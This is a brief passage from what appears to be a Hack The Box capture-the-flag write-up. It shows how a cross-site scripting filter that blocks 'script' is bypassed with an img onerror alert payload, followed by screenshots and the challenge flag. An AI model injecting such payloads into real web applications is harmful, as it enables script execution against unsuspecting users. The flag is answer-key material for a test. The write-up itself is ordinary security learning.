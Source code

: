 ### XSS - Bypass blacklist

XSS without using `script`

```
<img src=x onerror='alert(1)'>
```

![](/assets/obsidian/4fef64e31549d320ac37f004905ed4a5.png){:target='_blank'}

![](/assets/obsidian/4481ddbe701b7949fe7551dd93cec77c.png){:target='_blank'}

![](/assets/obsidian/edd6605ca045f7a3986f47f3fd4fb4cc.png){:target='_blank'}

> `HTB{4l3rt5_c4us3_jumpsc4r35!!}`


## PumpkinSpice
